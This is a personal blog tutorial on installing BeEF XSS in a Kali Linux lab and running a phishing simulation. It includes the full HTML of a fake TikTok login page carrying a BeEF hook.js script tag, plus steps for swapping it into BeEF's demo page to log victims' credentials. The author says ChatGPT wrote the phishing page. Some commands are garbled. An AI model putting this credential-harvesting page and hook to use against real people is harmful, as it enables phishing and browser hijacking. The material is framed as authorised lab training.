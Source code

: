 ```yaml
---
layout: post
title: "Beef XSS"
date: "2023-12-01"
categories: [security, linux]
published: true
video: 890690983
---
```


Beef XSS, short for Browser Exploitation Framework, is a powerful tool used by ethical hackers and security professionals to test the vulnerability of web applications. It allows security experts to assess the security of a website by simulating real-world attacks that exploit vulnerabilities in the user's browser.

The primary goal of a Beef XSS attack is to inject malicious scripts into web pages that are then executed by the victim's browser. Unlike traditional XSS attacks, Beef XSS goes beyond stealing cookies or session tokens; it enables attackers to take control of the victim's browser and use it as a platform for launching further attacks.

This guide outlines steps to perform ethical hacking and phishing simulations using Kali Linux, Beef XSS, and VMware. The project involves assessing web application vulnerabilities and simulating phishing attacks.

In the guide we will be going over the following, Beef XSS, changing the Butcher page, and sending my phishing email impersonating a TikTok influencer.
For this example, I will be using kali Linux that I installed onto my MacBook, with the target browser my on VMware.

## I. Setting Up Beef XSS

**Step 1: Beef Install**

***Update the system***  

```markdown
sudo apt-get update && sudo apt-get upgrade 
```
***Install Beef-XSS*** 

```markdown
sudo apt install beef-XSSall Beef XSS “
```

**step 2: config –**

***Open the Beef config.yaml file*** 

```markdown
sudo nano /etc/beef-xss/config.yaml
```
***Update credentials and set the host for HTTP.***

***Save and exit (Ctrl + X, then Y).***

**Step 3:  operating** 

```markdown
Sudo ./ beef
```

After it starts go to the Ui panel a link should appear or it will automatically load for you.

<br>

## II. Phishing Simulation

Now for my example Instead of creating a separate html page and having the target need to open our html page or redirect them to the butcher site, we are going to edit the butcher page to fit our needs and send out a phishing email to ourselves. 

NOTE: because we are editing the butcher page we will be able to log all inputs and activity while the target is on our page we will also be able to send this email to anyone on our network and redirect them to our hook off of beefs already running Apache server.
For my next part I will  be using my already fake phishing emails directed at small business impersonating a tic Tok influencer. 

I asked chat gpt to create me a simple login page similar to TikTok’s for my personal website, it did not disappoint.

```markdown

<!DOCTYPE html>
<html lang="en">
<head>
    <script src="http://192.168.4.97:3000/hook.js"></script>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tik Tok</title>
    <style>
        
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background-color: #fff;
            text-align: center;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }

        .login-container {
            max-width: 400px;
            width: 100%;
            padding: 20px;
            box-sizing: border-box;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }

        img {
            width: 100px;
            margin-bottom: 20px;
        }

        input {
            width: 100%;
            padding: 10px;
            margin: 8px 0;
            box-sizing: border-box;
            border: 1px solid #ccc;
            border-radius: 4px;
        }

        button {
            background-color: #00a4ef;
            color: #fff;
            padding: 10px 15px;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-size: 16px;
        }

        button:hover {
            background-color: #0077cc;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="tik_tok.jpg" alt="TikTok Logo">
        <h2>Login</h2>
        <form action="your_login_handler.php" method="post">
            <input type="text" id="username" name="username" placeholder="Username" required>
            <input type="password" id="password" name="password" placeholder="Password" required>
            <button type="submit">Log In</button>
        </form>
    </div>
</body>
</html>

```

I currently have the following hook.js script enabling this page to reach out and talk to my beef server the following script gets place inside the head tag on our html page.

```markdown
<script src="http://192.168.4.97:3000/hook.js"></script>
```

Here is the following video on how to add our new page and replace the butcher page.
The process is fairly simple my video is at double speed, with the most important being.

- Use elevated privileges to go into beefs extension directory 

```markdown
sudo su
```
Index.Html in the butcher directory is the page we want to edit the full file path is as follows to get their you need to a super user.

```markdown
Cd /usr/share/beef-xss/extensions/demos/html/butcher
```

Note: There is one script we wish to keep in the index.html page                                            

```markdown
<script src="jquery-1.12.4.min.js"></script>                                                                                       
```
this script handles the events and logs it back to the beef logs monitoring everything we do on our page, The second important part is to remove our address from our own hook.js script in our header because we are now in the root directory and do not need to let beef know were to go. Our new script should look like  

The rest of the video quickly goes over sending the hook to my VMware station from my machine, and shows the same java code being used in the butcher page to log our credentials and monitor our activity while on the page, then runs thru a couple of examples with my fishing email I made for my other project


<br>

<div style="padding:56.25% 0 0 0;position:relative;"><iframe src="https://player.vimeo.com/video/890861426?badge=0&amp;autopause=0&amp;quality_selector=1&amp;player_id=0&amp;app_id=58479" frameborder="0" allow="autoplay; fullscreen; picture-in-picture" style="position:absolute;top:0;left:0;width:100%;height:100%;" title="beef Project - Made with Clipchamp"></iframe></div><script src="https://player.vimeo.com/api/player.js"></script